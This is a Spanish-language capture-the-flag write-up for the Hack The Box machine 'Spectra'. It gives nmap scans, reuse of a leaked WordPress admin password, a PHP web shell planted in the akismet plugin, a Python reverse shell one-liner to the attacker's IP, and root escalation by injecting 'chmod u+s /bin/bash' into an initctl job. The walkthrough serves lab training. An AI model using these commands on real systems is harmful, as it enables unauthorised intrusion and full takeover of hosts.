

# Spectra

<div align='center'>
  
</div>

## Escaneo de puertos

Uso de [nmap](https://nmap.org) para escaneo de puertos por atravez de protocolos TCP

```bash
 sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.229 -oG allPorts
```

<div align='center'>
  
</div>

## Escaneo de servicios en puertos descubiertos

En el paso anterior descubrimos 3 puertos abiertos que consecuentemente deben ser analizados atravez de scripts basicos de reconocimiento (-C) junto a las versiones usadas por estos servicios (-V)

```bash
 nmap -sCV -p22,80,3306 10.10.10.229 -vvv -oN targeted
```

<div align='center'>
  
</div>

## Enumeracion de Web

Visitamos la pagina y revisamos que encontramos

<div align='center'>
  
</div>

## Listado de directorios

En el paso anterior encontramos dos rutas, la que dice test nos lleva a un index.php, pero al borrar en la url index.php notamos que tenemos acceso a listar todo lo existente en el directorio /testing

<div align='center'>
  
</div>

<div align='center'>
  
</div>

## Descubrimiento de credenciales

En el archivo que fue guardado por nano podemos encontrar credenciales al verlo atraves de la fuente de la pagina (Ctrl + u)

<div align='center'>
  
</div>

## Resolucion estatica

Al pasar el mouse encima de "Software Issue Tracker" vemos que nos lleva a spectra.htb pero debemos agregar esa ruta a nuestro /etc/hosts para resolver el dominio

```bash
 echo "10.10.10.229 spectra.htb" | sudo tee -a /etc/hosts
```

## Enumeracion de wordpress

Ahora una vez resuelto el dominio spectra.htb podemos ver una pagina de wordpress donde encontramos
1. Un usuario llamado administrator
2. Una ruta que no lleva al panel de login

<div align='center'>
  
</div>

## Re-uso de credenciales

Una vez en el panel de login usaremos el usuario "administrator" con la contrasena encontrada anteriormente "devteam01"
Para consiguientemente darl click en "Remind me later"

<div align='center'>
  
</div>

<div align='center'>
  
</div>

## Injeccion remota de comandos

Una vez logueados como admin en el panel de control nos dirijimos a Plugin Editor para editar el pluging llamado akismet.php
donde agregaremos la siguiente linea para aplicar un RCI (Remote Code Injection)

```bash
 system($_GET['cmd']);
```

<div align='center'>
  
</div>


## URL Revershell

Una vez editado y actualizado el plugin akismet.php
1. Nos ponemos en escucha con ncat -nlvp 4444
2. Nos dirigmos a la ruta del plugin editado http://spectra.htb/main/wp-content/plugins/akismet/akismet.php
3. Agregamos el parametro que llama a la injecion en la url ?cmd=
4. y seguido en la url agregamos la revershell donde debes cambiar el campo <TU IP> por la IP que tengas con la VPN de Hackthebox

```bash
 python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<TU IP>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

<div align='center'>
  
</div>

## Archivos criticos

Una vez logueados como el usuario nginx vemos en la ruta /opt/ un archivo llamado "autologin.conf.orig"
que toma un contrasena que se aloja en "/etc/autologin"

<div align='center'>
  
</div>


### Password

```bash
SummerHer*********
```
<div align='center'>
  
</div>

## Enumeracion de privilegios

1. Hacemos uso de sudo -l para ver a que binario tenemos permiso de usar con permisos de root
2. Usamos el comando id para saber a que grupos pertenecemos 
3. Y al ver que tenemos acceso al binario initctl y hacemos parte del grupo developers buscamos de forma recursiva por archivos que pertenezcan al grupo developers y encontramos tareas usadas con el initctl

```bash
 find / -group developers 2>/dev/null | xargs ls -l
```

<div align='center'>
  
</div>

## Init explotation

De los archivos encontrados anteriormente podemos tomar cualquiera para el siguiente paso, pero para este ejercicio tomaremos test9.conf, lo abrimos con nano y agregaremos una linea al archivos para que cuando iniciemos la tarea como root usando initctl se ejecute el comando que estamos injectando como root que en este caso sera cambiar los permisos de /bin/bash

```bash
 exec chmod u+s /bin/bash
```

<div align='center'>
  
</div>

## Escalacion de privilegios

Una vez modificado el test9.conf
1. Guardamos el archivo
2. Verificamos los permisos
3. Iniciamos el test9 como root
4. Verificamos que los permisos de /bin/bash hayan sido modificados
5. Una vez verificado nos logueamos como root usando bash -p

```bash
 sudo -u root /sbin/initctl start test9
```

<div align='center'>
  
</div>

<div align='center'>
  <p>Thanks for reading! Follow me on my socials:</p>
  <a href='https://x.com/@imahian'></a>
  <a href='https://discord.gg/dbesG8EX'></a>
  <a href='https://youtube.com/@imahian'></a>
  <a href='https://twitch.tv/imahian'></a>
</div>

---
